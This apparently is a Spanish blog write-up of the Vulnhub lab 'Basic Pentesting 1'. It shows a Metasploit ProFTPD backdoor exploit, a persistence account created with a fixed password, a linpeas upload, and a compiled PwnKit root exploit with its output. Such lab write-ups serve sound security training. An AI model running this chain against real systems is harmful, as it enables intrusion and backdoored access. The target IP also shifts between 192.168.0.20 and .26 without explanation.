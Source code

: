 ```yaml
---
title: "Vulnhub #0: CSEC Basic Pentesting 1"
description: Pentesting a máquina CSEC en Vulnhub
date: 2025-05-11
scheduled: 2025-05-11
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [Vulnhub](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Descubrimiento de host

Usamos `sudo netdiscover` para descubrir los host en la red.

```plaintext
Ubuntu:   192.168.0.20
Kali:     192.168.0.16
```

## Descubriendo servicios y versiones

Debemos identificar puertos, servicios y versiones de los mismos.

Usamos `nmap -sT -p- -A 192.168.0.26 -oA resultados`

En los resultados encontramos algo de interés:

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD 1.3.3c
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

## Explotando la maquina

### Buscar exploit

Vamos a probar a romper `FTPd` con `metasploit`

Podemos lanzar metasploit con `msfconsole`

Si buscamos exploits con `search proFTPd` podemos encontrar una para nuestra version.

### Configuracion del exploit

Puedes usar `use unix/ftp/proftpd_133c_backdoor` para usar este exploit, tambien puedes usar su index.

Con show options vemos que debemos indicar el `rhosts`, `lhost` y un `exploit target` o payload a ejecutar.

Para ver los payloads disponibles `show payloads`.

Para cargar un payload `set payload index|path`. 

Para configurar la maquina a atacar `set rhosts 192.168.0.26`.

Para configurar que maquina se queda escuchando `set lhost 192.168.0.16`.

Lanzamos con `run`, deberíamos obtener acceso a una terminal, podemos comprobarlo con `whoami` o `ls`.

### Persistencia

Podemos crear un usuario con `useradd hhyyppeerr`.

Y crear una contraseña con `echo "hhyyppeerr:ilovesummer" | chpasswd`

Podemos comprobar que podemos entrar al sistema con `ssh hhyyppeerr@192.168.0.26` e introduciendo `ilovesummer` como contraseña.

## Weaponization y escalado de privilegios

Copiamos `linpeas` o el script que queramos usar a la maquina objetivo con `scp ./linpeas.sh hhyyppeerr@192.168.0.26:/tmp/linpeas.sh`.

Entramos de nuevo en la maquina objetivo con nuestro usuario y lanzamos el script.

Linpeas nos ha mostrado el siguiente exploit disponible:

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                            
[+] [CVE-2021-4034] PwnKit                                                                                                    

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

Podemos buscar el CVE para encontrar exploits, en nuestro caso: https://github.com/arthepsy/CVE-2021-4034

Nos copiamos el repositorio a la maquina objetivo con `nano` o `scp`.

Compilamos y ejecutamos el codigo:

```plaintext
$ ls
cve-2021-4034-poc.c  README.md
$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
$ ls
cve-2021-4034-poc  cve-2021-4034-poc.c  README.md
$ ./cve-2021-4034-poc
# whoami
root
```

Puede que esto no funcione, pero con `make` si.
